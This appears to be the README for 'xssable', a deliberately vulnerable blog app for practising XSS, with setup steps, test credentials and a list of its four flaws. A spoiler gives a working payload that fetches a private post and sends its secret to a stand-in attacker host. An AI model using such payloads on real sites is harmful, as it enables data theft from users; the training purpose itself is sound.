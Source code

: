 ## xssable

xssable is a vulnerable blogging platform used to demonstrate XSS vulnerabilities. 

### Usage

To run it locally:

```
docker build . -t xssable:latest
docker run -p 5000:5000 xssable:latest
```

or 

```bash
pip install -r requirements.txt
python app.py
```

Then access the application on http://127.0.0.1:5000.

<details>
 <summary>Spoiler!</summary>

Credentials for the built-in user accounts are `John:12345` and `Connie:iloveyou1`.

</details>

Currently there are 4 different XSS vulnerabilities:

- a reflected XSS (with the possibility to bypass Chrome's XSS Auditor),
- a stored XSS with limited exploitation,
- a stored XSS without limitations, and
- a `location.hash` to `.innerHTML` based DOM XSS.

Exploitation (beyond alert() pop-ups) can be practiced by getting access to Connie's private blog post and stealing the secret code.

<details>
 <summary>Spoiler!</summary>
 
```js
fetch('/blogs').then(r => r.text()).then(t => fetch('https://attacker.kiwi.com/?s='%2bt.split('%F0%9F%94%92')[1].split('<strong>')[1].split('<')[0]))</script>
```

</details>
&nbsp;

The application highlights that:

- blacklists are bypass-able,
- browser protections are unreliable,
- not every "XSS" has the same impact,
- frameworks do unexpected stuff, and
- server-side validation is important.

##### What's next?

- https://xss-game.appspot.com/ - good for basics, created by Google.
- https://knock.xss.moe - focused on exploitation and filter evasion.
- https://polyglot.innerht.ml/ - an awesome polyglot challenge (it's over by now and the results are public).
